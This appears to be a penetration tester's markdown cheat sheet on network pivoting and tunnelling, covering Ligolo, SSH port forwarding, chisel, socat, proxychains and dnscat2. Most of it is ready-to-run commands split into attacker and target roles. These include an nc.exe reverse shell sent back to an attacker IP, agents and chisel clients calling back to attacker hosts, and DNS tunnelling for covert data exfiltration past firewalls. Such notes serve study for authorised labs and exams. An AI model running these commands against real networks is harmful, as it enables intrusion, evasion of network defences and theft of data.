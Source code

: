 ## Port Tunneling & Redirection

#### Ligolo

Think of it as disguising your machine as the pivot machine in the eyes of the firewall. Favorite for tunnelling.

Scenarios.
- Use a service that is only available on the localhost of the target like RDP or web server.
- Transfer files from internal (through pivot) to attacker and vise versa.


```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.201.0/24 dev ligolo # Discard 4th octect of victim machine's internal ip
ip route list
sudo ligolo-proxy -selfcert

./agent -connect 192.168.45.221:11601 -ignore-cert -retry # Target

session # select the session that you want to work with
1
start
listener_add --addr 0.0.0.0:3389 --to 127.0.0.1:3389
listener-list # confirm

.\nc.exe 172.16.157.14 1234 -e cmd.exe # On target machine to receive revshell
# If web server, access browser and/or direct attacks to localhost:port

# Great for transferring files when testing AD
listener_add --addr 0.0.0.0:1433 --to 172.10.121.15:1433 # If you need to use specific port for internal
```

You may need to create certificates:

```bash
mkdir -p ~/Downloads/certs
cd ~/Downloads/certs
openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
```

#### Local Forwarding

Binding local ports to dmz ones and using your local machine to act as the (accessible) remote machine.

#### Local Port Forwarding

Local port forwarding allows you to forward a port on the local machine to a remote server. This is useful for accessing a remote service as if it were running on your local machine.
- Access an internal database via a pivot machine, bypassing rules against direct external connections.
- Connect to an email server's local-only management interface, circumventing local access restrictions.
- Reach a DMZ server without direct connections, navigating DMZ-specific ingress rules.
- Bypass firewall blocks on remote ports to access restricted services.
- Transfer files to a non-directly accessible server, overcoming remote file transfer blocks.

Access remote HTTPS website that's on port 443.

```bash
ssh -N -L localhost:localPort:destinationServer:remotePort user@SSHserver
ssh -N -L 127.0.0.1:443:127.0.0.1:8443 web_admin@10.4.50.215
ssh -N -L 9000:localhost:8000 -i 245/id_ecdsa anita@192.168.196.246 -p 2222
```

Upload files to remote.

```bash
ssh -N -L 9000:dmz_ip:22 user@dmz_ip
scp -P 9000 local_backup_file.tar.gz localhost:/path/to/destination/
```

Download files from remote.

```bash
ssh -L 9001:internal_server:22 user@pivot_machine # Download files from remote
scp -P 9001 localhost:/path/to/config_file.conf /local/path/ 
```


### Local Dynamic Port Forwarding

Allows you to create a SOCKS proxy server on the local machine, which can be used to forward requests dynamically to multiple destinations.

- Use the dynamic port forwarding to scan multiple ports on a target network without setting up individual port forwards for each.
- Access multiple services on different ports and different servers through a single local SOCKS proxy.

```bash
ssh -fND 0.0.0.0:9999 database_admin@10.4.50.215
socks4 127.0.0.1 9999 # Edit /etc/proxychains4.conf
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

```bash
chisel server --reverse --port 51234 # Attacker, make sure this port is open in the firewall
/tmp/chisel client kali_ip:51234 50080:socks
```

#### Remote Forwarding

Using a pivot machine as a middle man.

Scenarios.
- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Transfer files from internal to attacker through pivot.

#### Remote Port Forwarding

Remote port forwarding allows you to forward a port on the remote server to a local machine. This is useful for exposing local services to a remote network.

- Expose an internal web server via a remote pivot.
- Strict firewall egress doesn't allow traffic in or out of 1433 outside of the network.
- Provide remote access to a local file server, overcoming local network file access restrictions.

```bash
chisel server --reverse --port 5000
/tmp/chisel client kali_ip:5000 R:8001:127.0.0.1:8001 R:8443:127.0.01:8443
curl localhost:8443 # On attacker machine
```

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

Upload files to internal.

```bash
ssh -R 9002:localhost:22 user@internal_ip # Execute commands on pivot machine
scp -P 9002 update_package.zip internal_user@localhost:/path/to/internal_folder/
```

### Remote Dynamic Port Forwarding

Remote dynamic port forwarding allows setting up a SOCKS proxy on a remote server to dynamically forward traffic from the remote server to multiple destinations.

- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Access services across remote networks, bypassing direct internet exposure rules.
- Perform network monitoring from afar, avoiding restrictions on external monitoring tools.

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

### Chisel

Scenarios.
- You compromised Confluence server, but only HTTP outbound traffic is allowed.
- A network administrator blocks all outbound SSH traffic, affecting SSH-based tunneling strategies.

Troubleshooting.
- Make sure versions are compatible.
- Ensure ip addresses are in the right locations

Using target's service that's only available on their localhost.

```bash
chisel server --reverse --port 51234 # Attacker
./chisel client $myip:51234 R:8443:127.0.0.1:8443 # Target
```

Masquerading as HTTP traffic.

```bash
chisel server --reverse --socks5 -p 8001 &> /tmp/output 
chisel server --port 8080 --reverse &> /tmp/output # For TCP Traffic

./chisel client 192.168.45.221:8001 R:socks # Client

socks5 127.0.0.1 8001 # sudo vi /etc/proxychains5.conf
proxychains ...
```

```bash
/tmp/chisel server --reverse --port 51234
/tmp/chisel client kali_ip:51234 R:50080:socks
```

### Port Redirection with Socat

Scenario.
- Redirect traffic from an external-facing port to an internal service.

```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 # Victim
ssh database_admin@192.168.50.63 -p2222
```

### Using Browser with Proxychains

Configure Proxychains

```bash
socks4 127.0.0.1 9050 # Edit /etc/proxychains.conf
proxychains firefox
```

### DNS Tunneling

Scenarios.
- Sending data out of a network covertly via DNS queries.
- Sending data into a network covertly via DNS responses.

#### Basic Usage

```bash
dnscat2-server <YOUR_DOMAIN> # Attacker
./dnscat <YOUR_DOMAIN> # Target
```

#### Network Monitoring

```bash
tcpdump -i eth0 'tcp port 80' # Monitor HTTP Traffic
tcpdump -i eth0 'udp port 53' # Monitor DNS Queries
```

#### Resourcess

[Ligolo](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
[Port Forwarding](https://github.com/twelvesec/port-forwarding)